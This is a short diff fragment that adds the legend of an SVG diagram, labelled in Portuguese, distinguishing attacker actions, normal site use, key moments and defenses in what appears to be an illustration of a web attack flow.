+   <line x1="40" y1="687" x2="72" y2="687" stroke="#ef4444" stroke-width="2" marker-end="url(#arrow-red)" />
+   <text class="leg" x="82" y="691">ação do atacante</text>
+   <line x1="250" y1="687" x2="282" y2="687" stroke="#94a3b8" stroke-width="1.5" marker-end="url(#arrow-grey)" />
+   <text class="leg" x="292" y="691">uso normal do site</text>
+   <rect x="478" y="680" width="22" height="14" rx="3" fill="#2a2208" stroke="#eab308" stroke-width="2" />
+   <text class="leg" x="510" y="691">momento-chave</text>
+   <rect x="680" y="680" width="22" height="14" rx="3" fill="#0b1f17" stroke="#10b981" stroke-dasharray="4 3" />
+   <text class="leg" x="712" y="691">defesa</text>
</svg>
